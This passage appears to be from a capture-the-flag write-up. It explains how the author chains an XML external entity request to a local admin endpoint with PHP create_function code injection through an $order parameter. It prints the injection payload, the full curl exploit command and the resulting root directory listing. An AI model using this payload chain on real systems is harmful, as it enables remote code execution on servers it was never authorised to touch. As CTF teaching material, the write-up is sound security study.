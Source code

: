 Exploiting the **create_function** call was a little bit tricky at the beginning, it required some work crafting the **PHP payload** in a way the final result was valid **php code** without any syntactic error.

According to the [PHP documentation][4], this function receives two string parameters, the first one is the parameters and the second one is the actual code of the function we want to generate. 

The sort function receives two parameters, **$url** and **$order**, we control both of them but the important one is **$order** because it's going to be replaced in the string of the second parameter of the **create_function** function.

After some thinking I came with this idea, I'll explain why.
```bash
 $order = id, null) && die(shell_exec('ls -la /')); ($aaa=" 
``` 

The original piece of code looks like this.
```php
 usort($data, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');')); 
``` 

When I replace the $order variable with my payload the final code looks like this.
```php
 usort($data, create_function('$a, $b', 'return strcmp($a->id, null) && die(shell\_exec(\'ls -la /\')); ($aaa=",$b->id, null) && die(shell_exec(\'ls -la /\')); ($aaa=");')); 
``` 

Maybe I over complicate the things but I remember having some issues with single, double quotes and parentheses, anyway the result is valid **PHP code** :), the **($aaa="** thing at the end is important because it allow us to wrap the rest of the code (everything after shell_exec) into a string variable (like ignoring or skipping the code).

Note: Since I had access to the source code I did several test on my local environment so once I got a working payload I was able to put an exploit together, I needed to encode first the code into the xml before sending the post request.

Putting everything together looks like this.
```bash
 $ url='http://68.183.31.62:94/custom' 
 $ xml_content='<?xml version="1.0" ?><!DOCTYPE root [<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=http://localhost/admin?rss=https%3A%2F%2Fwww.website.com%2Fpath%2Fxxe.xml&order=id%2C%20null)%20%26%26%20die(shell\_exec(%27ls%20-la%20%2F%27))%3B%20(%24aaa%3D%22">









]><root><name>&test</name></root>' 
 $ curl –request POST –url "$url" –header 'cache-control: no-cache' –header 'content-type: application/xml' –data "$xml_content" | base64 -d
 
 % Total % Received % Xferd Average Speed Time Time Time Current Dload Upload Total Spent Left Speed 100 2197 100 1892 100 305 6348 1023 –:–:– –:–:– –:–:– 7347

 total 116 
 drwxr-xr-x 1 root root 4096 Dec 26 18:10 . 
 drwxr-xr-x 1 root root 4096 Dec 26 18:10 .. 
 -rwxr-xr-x 1 root root 0 Dec 25 23:47 .dockerenv 
 drwxr-xr-x 1 root root 4096 Dec 25 23:50 app 
 drwxr-xr-x 1 root root 4096 Dec 4 15:47 bin 
 drwxr-xr-x 2 root root 4096 Apr 10 2014 boot 
 -rwxr-xr-x 1 root root 1122 Feb 15 2016 create_mysql_admin_user.sh 
 -rw-r–r– 1 root root 31 Dec 26 03:34 da0f72d5d79169971b62a479c34198e7 
 drwxr-xr-x 5 root root 360 Dec 25 23:47 dev 
 drwxr-xr-x 1 root root 4096 Dec 25 23:55 etc 
```

 [1]: https://ctf.fireshellsecurity.team/
 [2]: https://twitter.com/yovasx2
 [3]: https://www.imperva.com/Resources/Glossary/source-code-disclosure
 [4]: http://php.net/manual/es/function.create-function.php
 [5]: http://php.net/manual/en/function.eval.php
 [6]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
 [7]: https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing
 [8]: https://www.alevsk.com/
 [9]: http://68.183.31.62:94/admin